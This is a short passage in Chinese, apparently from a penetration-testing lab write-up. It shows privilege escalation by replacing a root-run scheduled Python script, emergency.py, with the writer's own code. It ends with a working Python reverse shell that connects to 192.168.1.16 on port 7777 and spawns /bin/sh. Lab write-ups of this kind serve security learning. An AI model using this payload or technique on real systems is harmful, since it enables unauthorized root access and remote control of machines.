 ![](./pic-4/27.jpg)

## 方式二

通过定时任务冒充同一名称的`python`脚本进行执行

先进行测试，把`emergency.py`备份，然后创建一个`emergency.py`，编写代码，等待1分钟，发现文件所有者变为`root`，说明可以提取

![](./pic-4/28.jpg)

再次写入代码，等待一分钟，发现已经提权

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("192.168.1.16",7777))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
